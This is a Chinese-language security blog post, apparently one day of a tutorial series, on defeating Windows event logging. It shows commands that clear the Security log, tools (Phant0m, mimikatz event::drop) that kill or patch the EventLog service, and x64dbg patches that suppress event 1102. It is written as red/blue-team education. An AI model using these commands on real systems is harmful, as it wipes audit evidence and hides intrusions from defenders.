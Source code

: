 # 【Day 26】我們與 1102 的距離 - Bypass Clear Log Event

## 環境
* Windows 10 1709
* Mimikatz 2.2.0

## 事件日誌
打開事件檢視器（Event Viewer）會看到許多種事件記錄，這些事件記錄檔案預設存放在 `C:\Windows\System32\winevt\Logs`。事件日誌對於藍隊而言是個能夠知道這台機器做了哪些事情，而判斷出紅隊入侵的行為與證據；對於紅隊而言則是希望能夠在滲透時隱藏蹤跡，不被發現。

在安全性（Security）日誌檔，大家可能會注意到例如 4624、4625、4720 等等事件 ID，分別代表[帳戶已成功登入](https://docs.microsoft.com/zh-tw/windows/security/threat-protection/auditing/event-4624)、[帳戶無法登入](https://docs.microsoft.com/zh-tw/windows/security/threat-protection/auditing/event-4625)、[已建立使用者帳戶](https://docs.microsoft.com/zh-tw/windows/security/threat-protection/auditing/event-4720)。這些常見的事件 ID 對鑑識人員來說肯定非常熟悉，其中這篇的主角 [1102 稽核記錄已清除](https://docs.microsoft.com/zh-tw/windows/security/threat-protection/auditing/event-1102)更是家喻戶曉。
![](https://i.imgur.com/qOz9yW0.png)

## 清除事件日誌
一般清除事件日誌的方法很多，這邊舉簡單的三個。

### Event Viewer
在 Event Viewer 的右邊欄位有個清除記錄檔，按下去就刪除了。
![](https://i.imgur.com/mGYc3zX.png)

### wevtutil.exe
除了用來清除日誌之外，還有列舉、查看日誌等等功能。
```
el | enum-logs          List log names.
gl | get-log            Get log configuration information.
sl | set-log            Modify configuration of a log.
ep | enum-publishers    List event publishers.
gp | get-publisher      Get publisher configuration information.
im | install-manifest   Install event publishers and logs from manifest.
um | uninstall-manifest Uninstall event publishers and logs from manifest.
qe | query-events       Query events from a log or log file.
gli | get-log-info      Get log status information.
epl | export-log        Export a log.
al | archive-log        Archive an exported log.
cl | clear-log          Clear a log.
```

假設要刪除安全性日誌，指令如下。
```
# wevtutil.exe cl security
```

### Powershell
在 Powershell 使用 Clear-EventLog 指令也可以清除日誌
```
# Clear-EventLog security
```

## 關閉事件日誌
### 原理
Windows 事件日誌的服務可以對應到 EventLog 服務的 svchost.exe，也就是說只要關閉這個服務，就不會有事件被記錄。可以使用 Powershell 的 Get-WmiObject 指令找出目標 EventLog 服務。 
```
# Get-WmiObject -Class win32_service -Filter "name = 'eventlog'"

ExitCode  : 0
Name      : EventLog
ProcessId : 6832
StartMode : Auto
State     : Running
Status    : OK
```

然後用 Process Explorer 打開這個 Process，按下上面的 Threads，可以看到這個 Process 目前正在跑的 Thread，其中有四個服務名稱是 EventLog，把它們全都 Kill 或 Suspend，就成功停止事件記錄了。
![](https://i.imgur.com/blbVpvj.png)

### 復原方法
1. 用 Process Explorer 關閉那個 Process
2. 在 cmd 打 `net start eventlog` 重啟服務

### 工具
開源工具 [Phant0m](https://github.com/hlldz/Phant0m)，編譯之後執行就會把 EventLog 服務對應的 Thread 關閉。
```
# phant0m-exe.exe                                         
         ___ _  _   _   _  _ _____ __  __  __             
        | _ \ || | /_\ | \| |_   _/  \|  \/  |            
        |  _/ __ |/ _ \| .` | | || () | |\/| |            
        |_| |_||_/_/ \_\_|\_| |_| \__/|_|  |_|            
                                                          
        Version:        2.0                               
        Author:         Halil Dalabasmaz                  
        WWW:            artofpwn.com                      
        Twitter:        @hlldz                            
        Github:         @hlldz                            
                                                          
[+] Process Integrity Level is high, continuing...        
                                                          
[!] SeDebugPrivilege is not enabled, trying to enable...  
[+] SeDebugPrivilege is enabled, continuing...            
                                                          
[*] Attempting to detect PID from Service Manager...      
[+] Event Log service PID detected as 6768.               
                                                          
[*] Using Technique-1 for killing threads...              
[+] Thread 752 is detected and successfully killed.       
[+] Thread 5068 is detected and successfully killed.      
[+] Thread 5224 is detected and successfully killed.      
[+] Thread 6680 is detected and successfully killed.      
                                                          
[*] All done.                                             
```

## 刪除 1102 事件
### 動機
雖然成功關閉了 EventLog 服務，但是大家會發現如果在機器上清除日誌，1102 事件仍然會存在，就算再清除一次還是會更新。
![](https://i.imgur.com/kA2JMpb.png)

所以要找到方法刪掉這個事件，得要知道這個事件是如何產生的。
從 EventLog 的設定 Registry `Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\EventLog` 可以發現，其中使用了 wevtsvc.dll。因此可以分析 wevtsvc.dll 來確認 1102 事件的出現原因。
![](https://i.imgur.com/bbE0lXR.png)

### 原理
分析 Wevtsvc.dll 可以發現，在 `Channel::ClearChannelLog` 函數，這個函數就是負責處理 1102 事件的函數。其中又呼叫了 `Channel::FireEventIntoLog` 函數。
![](https://i.imgur.com/5iRdFJg.png)

直接拿 x64dbg 跑，Patch `Channel::FireEventIntoLog`，就會發現不會再產生 1102 事件了。除了 `Channel::FireEventIntoLog` 函數外，其實還可以 Patch `Channel::ActualProcessEvent`、`File::ActualWriteRecord`、`File::WriteOneEventToBuffer`、`FilterChannel::Indicate`、`FilterChannel::ForwardToClients`、`FilterConsumer::ForwardToClient` 等等都可以達到同個效果。

這時再清除一次日誌，就會發現日誌清潔溜溜了。
![](https://i.imgur.com/6FXE6TR.png)

### 工具
[Mimikatz](https://github.com/ParrotSec/mimikatz) 也有實作這個功能，原理是先透過 Pattern 找到 `Channel::ActualProcessEvent` 函數，並且把  `Channel::ActualProcessEvent` 的第一個 Byte 改寫成 `ret`，機械碼為 `c3`。以下為使用方法。
```
# mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Dec  3 2020 12:23:47
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # PRIVILEGE::Debug
Privilege '20' OK

mimikatz # event::drop
"EventLog" service patched
```

## 參考資料
* [Mimikatz](https://github.com/gentilkiwi/mimikatz)
* [渗透技巧——Windows日志的删除与绕过](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E6%97%A5%E5%BF%97%E7%9A%84%E5%88%A0%E9%99%A4%E4%B8%8E%E7%BB%95%E8%BF%87)
* [Phant0m](https://github.com/hlldz/Phant0m)
* [Event Log Tampering Part 1: Disrupting the EventLog Service](https://svch0st.medium.com/event-log-tampering-part-1-disrupting-the-eventlog-service-8d4b7d67335c)
* [Windows Security Log Events](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/)
